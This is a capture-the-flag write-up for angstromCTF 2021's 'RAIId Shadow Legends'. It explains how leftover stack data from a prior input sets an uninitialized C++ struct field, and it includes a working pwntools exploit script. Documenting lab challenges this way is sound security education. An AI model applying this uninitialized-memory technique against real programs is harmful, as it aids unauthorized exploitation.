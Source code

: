 # RAIId Shadow Legends

## Description

```  
I love how C++ initializes everything for you. It makes things so easy and
fun!

Speaking of fun, play our fun new game RAIId Shadow Legends (source) at
/problems/2021/raiid_shadow_legends on the shell server, or connect with nc
shell.actf.co 21300.

Author: kmh  
```

## Analysis

Let's take a look at `raiid_shadow_legends.cpp`.

`main()` prompts for an action. The only thing that's useful is option 1,
which will call `terms_and_conditions()` followed by `play()`.

```cpp  
int main() {  
       setresgid(getegid(), getegid(), getegid());  
       cout << "Welcome to RAIId Shadow Legends!" << endl;  
       while (true) {  
               cout << "\n1. Start game" << endl;  
               cout << "2. Purchase shadow tokens\n" << endl;  
               cout << "What would you like to do? " << flush;  
               string action;  
               cin >> action;  
               cin.ignore();  
               if (action == "1") {  
                       terms_and_conditions();  
                       play();  
               } else if (action == "2") {  
                       cout << "Please mail a check to RAIId Shadow Legends Headquarters, 1337 Leet Street, 31337." << endl;  
               }  
       }  
}  
```

`terms_and_conditions()` just prompts for an agreement and signature:

```cpp  
void terms_and_conditions() {  
       string agreement;  
       string signature;  
       cout << "\nRAIId Shadow Legends is owned and operated by Working Group 21, Inc. ";  
       cout << "As a subsidiary of the International Organization for Standardization, ";  
       cout << "we reserve the right to standardize and/or destandardize any gameplay ";  
       cout << "elements that are deemed fraudulent, unnecessary, beneficial to the ";  
       cout << "player, or otherwise undesirable in our authoritarian society where ";  
       cout << "social capital has been eradicated and money is the only source of ";  
       cout << "power, legal or otherwise.\n" << endl;  
       cout << "Do you agree to the terms and conditions? " << flush;  
       cin >> agreement;  
       cin.ignore();  
       while (agreement != "yes") {  
               cout << "Do you agree to the terms and conditions? " << flush;  
               cin >> agreement;  
               cin.ignore();  
       }  
       cout << "Sign here: " << flush;  
       getline(cin, signature);  
}  
```

`play()` is where the money's at. We need to control `player.skill` in order
to get the flag. But notice that it's never set or manipulated. Since it's not
initialized, and it's on the stack, there must be some way to leave "garbage"
behind on the stack such that `player.skill == 1337`.

```cpp  
struct character {  
       int health;  
       int skill;  
       long tokens;  
       string name;  
};

void play() {  
       string action;  
       character player;  
       cout << "Enter your name: " << flush;  
       getline(cin, player.name);  
       cout << "Welcome, " << player.name << ". Skill level: " << player.skill << endl;  
       while (true) {  
               cout << "\n1. Power up" << endl;  
               cout << "2. Fight for the flag" << endl;  
               cout << "3. Exit game\n" << endl;  
               cout << "What would you like to do? " << flush;  
               cin >> action;  
               cin.ignore();  
               if (action == "1") {  
                       cout << "Power up requires shadow tokens, available via in app purchase." << endl;  
               } else if (action == "2") {  
                       if (player.skill < 1337) {  
                               cout << "You flail your arms wildly, but it is no match for the flag guardian. Raid failed." << endl;  
                       } else if (player.skill > 1337) {  
                               cout << "The flag guardian quickly succumbs to your overwhelming power. But the flag was destroyed in the frenzy!" << endl;  
                       } else {  
                               cout << "It's a tough battle, but you emerge victorious. The flag has been recovered successfully: " << flag.rdbuf() << endl;  
                       }  
               } else if (action == "3") {  
                       return;  
               }  
       }  
}  
```

If we provide only expected input, `player.skill` will be 0.

```  
kali@kali:~/Downloads/angstrom/raiid_shadow_legends$ ./raiid_shadow_legends  
Welcome to RAIId Shadow Legends!

1. Start game  
2. Purchase shadow tokens

What would you like to do? 1

RAIId Shadow Legends is owned and operated by Working Group 21, Inc. As a
subsidiary of the International Organization for Standardization, we reserve
the right to standardize and/or destandardize any gameplay elements that are
deemed fraudulent, unnecessary, beneficial to the player, or otherwise
undesirable in our authoritarian society where social capital has been
eradicated and money is the only source of power, legal or otherwise.

Do you agree to the terms and conditions? yes  
Sign here: no  
Enter your name: foobar  
Welcome, foobar. Skill level: 0

1. Power up  
2. Fight for the flag  
3. Exit game

What would you like to do? 2  
You flail your arms wildly, but it is no match for the flag guardian. Raid
failed.  
```

I spent some time fumbling around passing large inputs into `player.name`, but
these are C++ strings(based on vectors) so it's clearly not a buffer overflow.

Kudos to my team mate [datajerk](https://github.com/datajerk) for figuring out
that we can manipulate `player.skill` via the `agreement` string in
`terms_and_conditions()`:

```  
kali@kali:~/Downloads/angstrom/raiid_shadow_legends$ ./raiid_shadow_legends  
Welcome to RAIId Shadow Legends!

1. Start game  
2. Purchase shadow tokens

What would you like to do? 1

RAIId Shadow Legends is owned and operated by Working Group 21, Inc. As a
subsidiary of the International Organization for Standardization, we reserve
the right to standardize and/or destandardize any gameplay elements that are
deemed fraudulent, unnecessary, beneficial to the player, or otherwise
undesirable in our authoritarian society where social capital has been
eradicated and money is the only source of power, legal or otherwise.

Do you agree to the terms and conditions? yesAAAA  
Do you agree to the terms and conditions? yes  
Sign here: foo  
Enter your name: foo  
Welcome, foo. Skill level: 4276545

1. Power up  
2. Fight for the flag  
3. Exit game

What would you like to do?  
```

`4276545` is `0x414141` (or `AAA`).

## Solution

Now that we know how to manipulate `player.skill` we just have to get `0x539`
(`1337`) in there to print the flag.

```python  
#!/usr/bin/env python3  
from pwn import *  
p = process('./raiid_shadow_legends')  
p.recvuntil('What would you like to do?')  
p.sendline('1')  
p.recvuntil('Do you agree to the terms and conditions?')  
p.sendline(b'yes\0' + p32(0x539))  
p.recvuntil('Do you agree to the terms and conditions?')  
p.sendline('yes')  
p.recvuntil('Sign here:')  
p.sendline('foo')  
p.recvuntil('Enter your name:')  
p.sendline('foo')  
p.recvuntil('What would you like to do?')  
p.sendline('2')  
p.recvuntil("It's a tough battle, but you emerge victorious. The flag has been
recovered successfully: ")  
flag = p.recvline()  
print(flag)  
```

```  
team8838@actf:/problems/2021/raiid_shadow_legends$ ~/solve.py  
[+] Starting local process './raiid_shadow_legends': pid 1473059  
b'actf{great_job!_speaking_of_great_jobs,_our_sponsor_audible...}\n'  
```  

Original writeup
(https://github.com/dobsonj/ctf/tree/master/writeups/2021/angstromctf/raiid_shadow_legends).